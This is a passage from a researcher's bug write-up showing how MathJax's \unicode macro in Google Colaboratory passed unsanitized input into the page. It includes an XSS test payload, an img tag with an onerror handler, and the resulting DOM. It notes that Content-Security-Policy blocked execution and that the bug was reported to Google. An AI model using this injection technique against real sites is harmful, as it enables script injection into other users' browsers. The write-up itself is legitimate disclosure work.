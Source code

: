 Then the following appeared in the DOM tree:

```html
<span
  class="MathJax"
  id="MathJax-Element-6-Frame"
  tabindex="0"
  data-mathml='<math xmlns="http://www.w3.org/1998/Math/MathML"><mtext>&#x41;</mtext><mtext>&#65;</mtext></math>'
  role="presentation"
  style="position: relative;"
>
  <span class="MJX\_Assistive\_MathML" role="presentation">
    <math xmlns="http://www.w3.org/1998/Math/MathML">
      <mtext>A</mtext>
      <mtext>A</mtext>
    </math>
  </span>
</span>
```

Have a look at the highlighted fragment. The data-mathml attribute contains, within `<mtext>` tags, HTML entities in exactly the same form as I typed them, i.e. `&#x41;` and `&#65;`. So maybe MathJax does not verify the argument to the `\unicode` macro at all, and just puts it directly into HTML? Let's see:

```
\unicode{<img src=1 onerror=alert(1)>}
```

And then in the DOM tree:

```html
<span class="MathJax" id="MathJax-Element-7-Frame" tabindex="0" data-mathml="<math xmlns=&quot;http://www.w3.org/1998/Math/MathML&quot;><mtext>&amp;#<img src=1 onerror=alert(1)>;</mtext></math>" role="presentation" style="position: relative;">
<span class="MJX\_Assistive\_MathML" role="presentation">
<math xmlns="http://www.w3.org/1998/Math/MathML">
<mtext>&amp;#
<img src="1" onerror="alert(1)">
;</mtext>
</math>
</span>
</span>
```

This is just great! The `<img>` tag appeared in the DOM tree without any sanitization! The problem is... that no alert was shown.

For a while I was confused what was that but things got cleared up when I had a look at the console.

[![](https://3.bp.blogspot.com/-ErQgX2cE46c/WyvhMH-xRPI/AAAAAAAAAOI/PjPzxi1Vcikuqy-aE3_g6Z8hkF-eJ9DUACK4BGAYYCw/s640/rys3.png)](http://3.bp.blogspot.com/-ErQgX2cE46c/WyvhMH-xRPI/AAAAAAAAAOI/PjPzxi1Vcikuqy-aE3_g6Z8hkF-eJ9DUACK4BGAYYCw/s1600/rys3.png)

So Colaboratory is protected by Content-Security-Policy. And in this case, it did its work. Anyway, I decided to submit the bug to Google at this point because CSP doesn't change the fact that root cause of the XSS (MathJax bug) is still there.
